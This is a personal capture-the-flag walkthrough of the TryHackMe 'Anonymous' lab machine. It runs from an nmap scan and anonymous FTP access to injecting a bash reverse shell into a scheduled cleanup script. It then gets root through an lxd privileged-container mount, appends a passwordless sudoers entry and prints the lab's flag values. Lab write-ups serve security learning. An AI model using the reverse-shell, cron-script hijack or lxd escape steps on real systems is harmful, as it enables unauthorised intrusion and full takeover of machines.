





## Anonymous Writeup

    Box IP Addresses:

    10.10.4.29
    10.10.47.34

nmap

kali@kali-[10.8.82.167]:~/labs/tryhackme/anonymous/docs$ nmap -sC -sV -oA nmap-scripts 10.10.4.29

    Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-25 15:48 EDT                            
    Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan                
    Service scan Timing: About 25.00% done; ETC: 15:49 (0:00:18 remaining)                     
    Nmap scan report for 10.10.4.29
    Host is up (0.028s latency).
    Not shown: 996 closed ports
    PORT    STATE SERVICE     VERSION
    21/tcp  open  ftp         vsftpd 2.0.8 or later
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_drwxrwxrwx    2 111      113          4096 Jun 04 19:26 scripts [NSE: writeable]
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.8.82.167
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 2
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
    |   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
    |_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
    Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    |_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
    |   Computer name: anonymous
    |   NetBIOS computer name: ANONYMOUS\x00
    |   Domain name: \x00
    |   FQDN: anonymous
    |_  System time: 2020-08-25T19:48:59+00:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2020-08-25T19:48:59
    |_  start_date: N/A

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 13.46 seconds

Ports:

21 - FTP
22 - SSH
139 - NetBIOS-SSN Samba smbd 3.X - 4.X
445 - NetBIOS-SSN Samba smbd 4.7.6-Ubuntu

1. FTP

Anonymous login is allowed, so let's try to enumerate FTP:

    kali@kali-[10.8.82.167]:~/labs/tryhackme/anonymous/docs$ ftp 10.10.4.29
    
    Connected to 10.10.4.29.
    220 NamelessOne's FTP Server!
    Name (10.10.4.29:kali): anonymous
    331 Please specify the password.
    Password: anonymous
    230 Login successful.

We used creds anonymous:anonymous to log in.

We can see a scripts folder in this share, so let's take a look inside:

There are 3 files:
    clean.sh
    removed_files.log
    to_do.txt

clean.sh : 

    #!/bin/bash

    tmp_files=0
    echo $tmp_files
    if [ $tmp_files=0 ]
    then
            echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
    else
        for LINE in $tmp_files; do
            rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
    fi

A bash script that deletes files in /tmp/$LINE.

removed_files.log : 

Contains just a recurring list of "Running cleanup script: nothing to delete"

to_do.txt:

    kali@kali-[10.8.82.167]:~/labs/tryhackme/anonymous/docs$ cat to_do.txt
    I really need to disable the anonymous login...it's really not safe

2. Samba:

We can login to smb through the File Explorer --> Browse Network, then type in on the top:

    smb://10.10.4.29/

Connecting we see 2 folders, pics and print$.

We can enter pics using user `anonymous`, and find 2 pictures, corgo2.jpg and puppos.jpeg.

The print$ folder doesn't allow you to do this - we'll need a login + password.

We can use smbmap now:

Simple smbmap first -

    smbmap -H 10.10.4.29 -R

Shows us what we already know.
-H = Host
-R = Recursive (goes through every directory and lists out files)

Also ran enum4linux, and found a user:namelessone

Gaining Access:

The answer was staring me in the face.

cleanup.sh was actually being run repetitively (because the log files were continuously being written!)

So we can just edit the cleanup.sh file with a bash reverse shell, as follows:

1. Go to File Explorer (Thunar) --> Browse Network, then type on the top:

    ftp://10.10.47.34

Log in as anonymous, then go into scripts, edit clean.sh as follows:

    #!/bin/bash

    tmp_files=0
    echo $tmp_files
    if [ $tmp_files=0 ]
    then
            echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
    bash -i >& /dev/tcp/10.8.82.167/4444 0>&1
    ##THIS LINE ABOVE ^^, it'll just continuously run.
    
    else
        for LINE in $tmp_files; do
            rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
    fi

Then start a nc listener, port 4444 (nc -lvnp 4444) and wait, you've got a shell, with user `thenamelessone`:

First we get the user.txt file:

user.txt: 90d6f992585815ff991e68748c414740

This user seems to have sudo privileges, but we don't have a password for it.

It also has lxd, so we can privesc through that.

Steps:

1.

kali@kali-[10.8.82.167]:~/labs/tryhackme/anonymous/docs$ git clone https://github.com/saghul/lxd-alpine-builder.git

2.

kali@kali-[10.8.82.167]:~/labs/tryhackme/anonymous/docs$ cd lxd-alpine-builder/

3. 

kali@kali-[10.8.82.167]:~/labs/tryhackme/anonymous/docs/lxd-alpine-builder$ sudo ./build-alpine
Determining the latest release... v3.12
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64
Downloading alpine-mirrors-3.5.10-r0.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading alpine-keys-2.2-r0.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading apk-tools-static-2.10.5-r1.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
alpine-devel@lists.alpinelinux.org-4a6a0840.rsa.pub: OK
Verified OK
Selecting mirror http://dl-8.alpinelinux.org/alpine/v3.12/main
fetch http://dl-8.alpinelinux.org/alpine/v3.12/main/x86_64/APKINDEX.tar.gz
(1/19) Installing musl (1.1.24-r9)
(2/19) Installing busybox (1.31.1-r19)
Executing busybox-1.31.1-r19.post-install
(3/19) Installing alpine-baselayout (3.2.0-r7)
Executing alpine-baselayout-3.2.0-r7.pre-install
Executing alpine-baselayout-3.2.0-r7.post-install
(4/19) Installing openrc (0.42.1-r11)
Executing openrc-0.42.1-r11.post-install
(5/19) Installing alpine-conf (3.9.0-r1)
(6/19) Installing libcrypto1.1 (1.1.1g-r0)
(7/19) Installing libssl1.1 (1.1.1g-r0)
(8/19) Installing ca-certificates-bundle (20191127-r4)
(9/19) Installing libtls-standalone (2.9.1-r1)
(10/19) Installing ssl_client (1.31.1-r19)
(11/19) Installing zlib (1.2.11-r3)
(12/19) Installing apk-tools (2.10.5-r1)
(13/19) Installing busybox-suid (1.31.1-r19)
(14/19) Installing busybox-initscripts (3.2-r2)
Executing busybox-initscripts-3.2-r2.post-install
(15/19) Installing scanelf (1.2.6-r0)
(16/19) Installing musl-utils (1.1.24-r9)
(17/19) Installing libc-utils (0.7.2-r3)
(18/19) Installing alpine-keys (2.2-r0)
(19/19) Installing alpine-base (3.12.0-r0)
Executing busybox-1.31.1-r19.trigger
OK: 8 MiB in 19 packages

Then we can transfer the file to the victim machine using wget.

We then import the image as follows (I'd already done it):

namelessone@anonymous:/tmp$ lxc image import alpine-v3.12-x86_64-20200825_2201.tar.gz --alias myimage
<e-v3.12-x86_64-20200825_2201.tar.gz --alias myimage
Error: Image with same fingerprint already exists

namelessone@anonymous:/tmp$ lxc image list
lxc image list
+-----------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|   ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+-----------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| newalpine | b3913ffc9475 | no     | alpine v3.12 (20200825_22:01) | x86_64 | 3.04MB | Aug 26, 2020 at 2:05am (UTC) |
+-----------+--------------+--------+-------------------------------+--------+--------+------------------------------+

Now we shall initialise a new container called ignite, which is Security Privileged.

namelessone@anonymous:/tmp$ lxc init newalpine ignite -c security.privileged=true
<c init newalpine ignite -c security.privileged=true
Creating ignite

Now we're adding ignite to our device, path being /mnt/root:

namelessone@anonymous:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite

Finally we are starting the container, and launching a shell:

namelessone@anonymous:/tmp$ lxc start ignite
lxc start ignite
namelessone@anonymous:/tmp$ lxc exec ignite /bin/sh
lxc exec ignite /bin/sh

~ # ^[[45;5Rid
id
uid=0(root) gid=0(root)

As you can see, we're running as root.

~ # ^[[45;5Rls -la
ls -la
total 12
drwx------    2 root     root          4096 Aug 26 03:01 .
drwxr-xr-x   19 root     root          4096 Aug 26 03:01 ..
-rw-------    1 root     root            10 Aug 26 03:01 .ash_history
~ # ^[[45;5Rcd ..
cd ..
/ # ^[[45;5Rls -la
ls -la
total 60
drwxr-xr-x   19 root     root          4096 Aug 26 03:01 .
drwxr-xr-x   19 root     root          4096 Aug 26 03:01 ..
drwxr-xr-x    2 root     root          4096 Aug 26 02:01 bin
drwxr-xr-x    7 root     root           420 Aug 26 03:01 dev
drwxr-xr-x   19 root     root          4096 Aug 26 03:01 etc
drwxr-xr-x    2 root     root          4096 Aug 26 02:01 home
drwxr-xr-x    8 root     root          4096 Aug 26 02:01 lib
drwxr-xr-x    5 root     root          4096 Aug 26 02:01 media
drwxr-xr-x    3 root     root          4096 Aug 26 03:01 mnt
drwxr-xr-x    2 root     root          4096 Aug 26 02:01 opt
dr-xr-xr-x  121 root     root             0 Aug 26 03:01 proc
drwx------    2 root     root          4096 Aug 26 03:01 root
drwxr-xr-x    4 root     root           160 Aug 26 03:01 run
drwxr-xr-x    2 root     root          4096 Aug 26 02:01 sbin
drwxr-xr-x    2 root     root          4096 Aug 26 02:01 srv
dr-xr-xr-x   13 root     root             0 Aug 26 01:35 sys
drwxrwxrwt    4 root     root          4096 Aug 26 03:01 tmp
drwxr-xr-x    7 root     root          4096 Aug 26 02:01 usr
drwxr-xr-x   11 root     root          4096 Aug 26 03:01 var

Now if we navigate to /mnt/root, we're back inside our victim machine:

/ # ^[[45;5Rcd /mnt/root
cd /mnt/root
/mnt/root # ^[[45;13Rls -la
ls -la
total 4015208
drwxrwxrwx   24 root     root          4096 May 12 17:04 .
drwxr-xr-x    3 root     root          4096 Aug 26 03:01 ..
drwxr-xr-x    2 root     root          4096 May 13 20:34 bin
drwxr-xr-x    3 root     root          4096 May 13 20:34 boot
drwxr-xr-x    2 root     root          4096 May 11 14:37 cdrom
drwxr-xr-x   17 root     root          3700 Aug 26 00:56 dev
drwxr-xr-x   96 root     root          4096 Jun  4 19:13 etc
drwxr-xr-x    3 root     root          4096 May 11 14:54 home
drwxr-xr-x   22 root     root          4096 May 11 14:40 lib
drwxr-xr-x    2 root     root          4096 Feb  3  2020 lib64
drwx------    2 root     root         16384 May 11 14:37 lost+found
drwxr-xr-x    2 root     root          4096 Feb  3  2020 media
drwxr-xr-x    2 root     root          4096 Feb  3  2020 mnt
drwxr-xr-x    2 root     root          4096 Feb  3  2020 opt
dr-xr-xr-x  120 root     root             0 Aug 26 00:56 proc
drwx------    6 root     root          4096 May 17 21:30 root
drwxr-xr-x   28 root     root           940 Aug 26 02:06 run
drwxr-xr-x    2 root     root         12288 May 13 20:34 sbin
drwxr-xr-x    4 root     root          4096 May 11 14:54 snap
drwxr-xr-x    3 root     root          4096 May 14 14:11 srv
-rw-------    1 root     root     4111466496 May 11 14:40 swap.img
dr-xr-xr-x   13 root     root             0 Aug 26 01:35 sys
drwxrwxrwt   10 root     root          4096 Aug 26 02:04 tmp
drwxr-xr-x   10 root     root          4096 Feb  3  2020 usr
drwxr-xr-x   14 root     root          4096 May 13 12:18 var

/mnt/root # ^[[45;13Rcd root
cd root
/mnt/root/root # ^[[45;18Rls -la
ls -la
total 60
drwx------    6 root     root          4096 May 17 21:30 .
drwxrwxrwx   24 root     root          4096 May 12 17:04 ..
-rw-------    1 root     root            55 May 14 14:53 .Xauthority
lrwxrwxrwx    1 root     root             9 May 11 15:17 .bash_history -> /dev/null
-rw-r--r--    1 root     root          3106 Apr  9  2018 .bashrc
drwx------    2 root     root          4096 May 11 16:05 .cache
drwx------    3 root     root          4096 May 11 16:05 .gnupg
drwxr-xr-x    3 root     root          4096 May 11 20:10 .local
-rw-r--r--    1 root     root           148 Aug 17  2015 .profile
-rw-r--r--    1 root     root            66 May 11 20:10 .selected_editor
drwx------    2 root     root          4096 May 11 14:54 .ssh
-rw-------    1 root     root         13795 May 17 21:30 .viminfo
-rw-r--r--    1 root     root            33 May 11 19:15 root.txt
/mnt/root/root # cat root.txt
cat root.txt
4d930091c31a622a7ed10f27999af363

And we have the root.txt file!

To privesc we can set namelessone to have passwordless sudo access by editing the /etc/sudoers file:

/mnt/root # ^[[45;13Rcat ./etc/sudoers
cat ./etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d

/mnt/root # ^[[45;13Recho "namelessone   ALL=(ALL:ALL) NOPASSWD:ALL" > ./etc/sudoers
echo "namelessone   ALL=(ALL:ALL) NOPASSWD:ALL" >> ./etc/sudoers

/mnt/root # ^[[45;13Rexit
exit

namelessone@anonymous:/tmp$ sudo su
sudo su

root@anonymous:/tmp# ls -la

ls -la
total 3500
drwxrwxrwt 10 root        root           4096 Aug 26 02:04 .
drwxrwxrwx 24 root        root           4096 May 12 17:04 ..
-rw-rw-r--  1 namelessone namelessone 3183830 Aug 26 02:01 alpine-v3.12-x86_64-20200825_2201.tar.gz
drwxrwxrwt  2 root        root           4096 Aug 26 00:56 .font-unix
drwxrwxrwt  2 root        root           4096 Aug 26 00:56 .ICE-unix
-rwxrwxr-x  1 namelessone namelessone  233677 Aug 26 01:44 linpeas.sh
-rw-rw-r--  1 namelessone namelessone  116169 Aug 26 01:47 lin.txt
drwx------  3 root        root           4096 Aug 26 00:56 systemd-private-1585904eea1a48b1b6e898fd0bf5311b-systemd-resolved.service-VzIsUN
drwx------  3 root        root           4096 Aug 26 00:56 systemd-private-1585904eea1a48b1b6e898fd0bf5311b-systemd-timesyncd.service-QkuX3C
drwxrwxrwt  2 root        root           4096 Aug 26 00:56 .Test-unix
drwx------  2 namelessone namelessone    4096 Aug 26 01:47 tmux-1000
drwxrwxrwt  2 root        root           4096 Aug 26 00:56 .X11-unix
drwxrwxrwt  2 root        root           4096 Aug 26 00:56 .XIM-unix

root@anonymous:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)

Privesc to Root:
 --> Incomplete one

 --> Full one

and Complete!

There was also a /env file that had a SUID bit set, that I feel could have been exploited, but the issue was that in order to privesc with that, we needed to use sudo, which was password protected. I'm unsure if the password for `namelessone` was somewhere on the machine.